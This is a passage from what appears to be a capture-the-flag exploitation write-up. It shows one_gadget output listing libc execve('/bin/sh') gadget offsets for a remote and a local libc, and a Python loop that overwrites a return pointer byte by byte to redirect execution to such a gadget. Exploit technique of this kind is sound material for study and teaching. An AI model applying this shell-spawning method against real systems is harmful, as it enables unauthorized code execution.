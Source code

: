 better ways of stabilizing the write and I'd love to hear about them so feel free to Dm me on twitter @A2nkF_
if you have a nicer way of doing it ;D.


#### Ropchain
Since our write primitive is fairly instable we will use a oneshot gadget instead of a ROP-chain. A oneshot gadget consists (as the name indicates) of only one gadget. The idea is to jump to a location in libc, where something like
```c
execve("/bin/sh", rsp+0x50, environ)
```
is called and hope that the stack is setup correctly for it to spawn a shell.
You can find these gadgets using [one_gadget](https://github.com/david942j/one_gadget).

One important thing to remember is that our libc is not the same as the servers, so we have to find a oneshot gadget for our local machine, and one for the remote machine.

We can use these for the remote server:

```
~$ one_gadget libc-2.27.so
0x4f2c5	execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322	execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
and these for the our local binary:
```
~$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

All that is left to do now is to loop over each byte of the return pointer and try to overwrite it with the corresponding byte from our oneshot gadget.
```python
for i in range(0, 6):
    old = getRetPtr()
    for j in range(2, 100):
        log.info("------> Overwriting byte %d: 0x%x with 0x%x at offset %d" % (i, ord(ret_chars[i]), ord(oneshot_chars[i]), j))
        write(ret_chars[i], oneshot_chars[i], j)
        new = getRetPtr()
        if old != new:
            log.success("WORKED!!! New pointer: " + hex(new))
            break
```